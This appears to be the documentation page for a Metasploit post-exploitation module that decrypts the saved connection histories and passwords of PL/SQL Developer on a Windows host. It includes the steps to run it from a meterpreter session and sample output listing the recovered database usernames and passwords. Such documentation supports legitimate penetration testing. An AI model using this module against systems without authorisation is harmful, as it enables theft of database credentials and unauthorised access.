 ## Vulnerable Application

This module can decrypt the histories and connection credentials of PL/SQL Developer,
and passwords are available if the user chooses to remember.

Analysis of encryption algorithm [here](https://adamcaudill.com/2016/02/02/plsql-developer-nonexistent-encryption/).
You can find its official website [here](https://www.allroundautomations.com/products/pl-sql-developer/).

## Verification Steps

  1. Download and install PL/SQL Developer.
  2. (Optional) Change the PL/SQL Developer preference to save the passwords.
  3. Use PL/SQL Developer to log in to oracle databases. Or add a connection in PL/SQL Developer manually.
  4. Get a `meterpreter` session on a Windows host.
  5. Do: `run post/windows/gather/credentials/plsql_developer`
  6. The username, password, SID of connections will be printed.

## Options

 **PLSQL_PATH**

  - Specify the path of PL/SQL Developer

## Scenarios

```
meterpreter > run windows/gather/credentials/plsql_developer

[*] Gather PL/SQL Developer Histories and Connections on WIN-XXXXXXXXXXX
[*] Decrypting C:\Users\Administrator\AppData\Roaming\PLSQL Developer\Preferences\Administrator\user.prefs
[*] Decrypting C:\Users\Administrator\AppData\Roaming\PLSQL Developer 14\Preferences\Administrator\user.prefs
[*] Decrypting C:\Users\Administrator\AppData\Roaming\PLSQL Developer 15\Preferences\Administrator\user.prefs
PL/SQL Developer Histories and Credentials
==========================================

DisplayName                Username  Database  ConnectAs  Password   FilePath
-----------                --------  --------  ---------  --------   --------
                           sys       ORCL      SYSDBA     oracle     C:\Users\Administrator\AppData\Roaming\PLSQL Developer\Preferences\Administrator\user.prefs
                           test1     ORCL      Normal                C:\Users\Administrator\AppData\Roaming\PLSQL Developer\Preferences\Administrator\user.prefs
                           test2     ORCL      Normal     password2  C:\Users\Administrator\AppData\Roaming\PLSQL Developer\Preferences\Administrator\user.prefs
                           user      server    Normal     password   C:\Users\Administrator\AppData\Roaming\PLSQL Developer\Preferences\Administrator\user.prefs
Imported Fixed Users/Test  sys       ORCL      SYSDBA     pass       C:\Users\Administrator\AppData\Roaming\PLSQL Developer 15\Preferences\Administrator\user.prefs
Imported History/Test      sys       ORCL      SYSDBA     oracle     C:\Users\Administrator\AppData\Roaming\PLSQL Developer 14\Preferences\Administrator\user.prefs

[+] Passwords stored in: C:/Users/Administrator/.msf4/loot/20231109050433_default_127.0.0.1_host.plsql_devel_357810.txt
meterpreter >
```
